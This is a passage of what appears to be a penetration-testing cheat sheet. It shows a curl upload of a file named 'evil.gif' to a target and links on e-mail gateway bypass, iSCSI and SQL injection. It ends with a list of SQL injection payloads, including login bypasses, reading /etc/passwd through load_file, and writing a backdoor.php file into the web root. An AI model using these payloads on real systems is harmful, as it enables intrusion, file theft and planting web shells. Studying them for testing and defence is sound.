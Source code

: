 ```
Kali> curl -X POST
                -F "field1=test"
                -F "file=@/home/user/evil.gif"
                http://$TARGET/upload.php
                --cookie "cookie"
```

## E-Mail

**Resources**

[How to Bypass E-Mail gateways using common payloads](https://www.youtube.com/watch?v=eZxWDCetqkE)

## iSCSI

**Resources**

[An interesting route to domain admin via ISCSI](https://www.pentestpartners.com/security-blog/an-interesting-route-to-domain-admin-iscsi/)

## Databases

##### MySQL

> ###### Resources

[SQL Injection](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/sql-injection)

[SQLMap tricks for advanced SQL injeciton](https://www.trustwave.com/Resources/SpiderLabs-Blog/Sqlmap-Tricks-for-Advanced-SQL-Injection/)

###### Examples

```
username'--
1'||'1'<'2
'OR 1=1;--
'OR 1=1;#
'OR 1=1 LIMIT 1; #
AND 1 = 2 UNION SELECT 1,2,3,4,5
1'1
1 exec sp_ (or exec xp_)
1 and 1=1
1' and 1=(select count(*) from tablenames); --
1 or 1=1
1' or '1'='1
1or1=1
1'or'1'='1
fake@ema'or'il.nl'='il.nl
1 union all select 1,2,3,4,load_file("/etc/passwd"),6
1 union all select 1,2,3,4,"<?php ?>",6 into outfile '/var/www/html/backdoor.php'
```
